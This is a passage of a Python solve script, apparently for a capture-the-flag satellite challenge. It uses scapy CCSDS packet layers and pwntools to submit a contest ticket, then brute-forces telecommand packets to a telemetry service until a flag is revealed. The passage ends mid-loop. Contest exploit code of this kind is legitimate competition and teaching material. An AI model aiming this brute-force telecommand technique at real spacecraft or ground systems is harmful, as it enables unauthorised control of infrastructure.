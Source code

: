 ```python

class FlagData(Packet):
    name = "FlagPacket"
    fields_desc = [BitField("FLAG{}".format(i), 0, 7) for i in range(1,121)]

    def flagvalue(pkt):
        flag = ""
        for fld in pkt.fields_desc:
            v = pkt.getfield_and_val(fld.name)[1]
            flag += chr(v)
        flagendidx = flag.index("}")
        return flag[:flagendidx+1]


bind_layers(TMPacketHeader, FlagData, CCSDS_APID=102)


if __name__ == '__main__':
    log.info(f"Current time is {datetime.datetime.now().isoformat()}")
    TICKET = ("ticket{sierra9703delta:GCz4SfUxuHKAYbCUU7gp1Z7V2M-"
              "INpvdOfKGlw8UnmXv_0hFsywtMey7vPAGbx4YpQ}")
    conn = remote('goose.satellitesabove.me',5033)
    l = conn.recvline()
    with log.progress("Sending ticket") as lp:
        conn.sendline(TICKET)
        lp.success()
    l = conn.recvline()
    log.info(l.decode())
    m = re.match(b'Telemetry Service running at (\S+):(\S+)', l)
    conn.close()
    host, port = m.groups()

    conn = remote(host, int(port))
    lp = log.progress("Waiting for the flag")

    def recv_one():
        raw = conn.recv()
        p = TMPacketHeader(raw)
        if p.haslayer(FlagData):
            lp.success()
            log.success(f"Flag value is: {p['FlagPacket'].flagvalue()}")
            log.info(f"Current time is {datetime.datetime.now().isoformat()}")
            sys.exit(0)

    for i in range(2):
        recv_one()
    
    # why start at 4? because we noticed it's faster than starting at 0
    # we actually send TC packets (CCSDS_TYPE=1) but were too lazy to write
    # proper scapy layers
    for i in range(4, 2**16):
        # LOW PWR THRES
        p = TMPacketHeader(CCSDS_TYPE=1, CCSDS_APID=103)/(
            b"\x00\x0c" + struct.pack('<H', i))
        conn.send(bytes(p))
        recv_one()

        #enable flag
        p = TMPacketHeader(CCSDS_TYPE=1, CCSDS_APID=103)/("\x00\x02\x01")
        conn.send(bytes(p))
        recv_one()

        # enable Payload
```